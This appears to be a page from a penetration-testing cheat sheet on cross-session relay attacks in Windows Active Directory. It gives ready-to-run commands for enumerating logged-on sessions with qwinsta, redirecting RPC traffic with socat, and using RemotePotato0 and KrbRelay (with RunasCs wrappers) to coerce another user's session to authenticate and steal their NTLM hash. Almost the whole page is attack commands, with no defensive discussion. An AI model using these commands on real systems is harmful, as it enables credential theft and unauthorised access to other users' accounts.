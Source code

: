 ```yaml
---
title: "Cross Session Relay"
date: 2024-8-2
tags: ["cross session relay", "ntlm", "active driectory", "ad", "Windows", "krbrelay", "RemotePotato0"]
---
```


### Display information about the session host

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
qwinsta *
```

```console
# Or runas
.\RunasCs.exe x x qwinsta -l 9
```

{{< /tabcontent >}}

---

### Abuse #1: Steal NTLM hash

{{< tab set2 tab1 active >}}RemotePotato0{{< /tab >}}
{{< tab set2 tab2 >}}KrbRelay{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Redirect auth request back to target

```console
# In local Linux 
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:<TARGET>:<RELAY_PORT>
```

#### 2. Trigger auth request

```console
.\RemotePotato0.exe -m 2 -s <TARGET_SESSION_ID> -x <LOCAL_IP> -p <RELAY_PORT>
```

<small>*Ref: [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. All-in-one

```console
.\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm
```

```console
# Or runas
.\RunasCs.exe x x -l 9 "C:\ProgramData\KrbRelay.exe -session <TARGET_SESSION_ID> -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```

<small>*Ref: [KrbRelay](https://github.com/cube0x0/KrbRelay)*</small>

{{< /tabcontent >}}
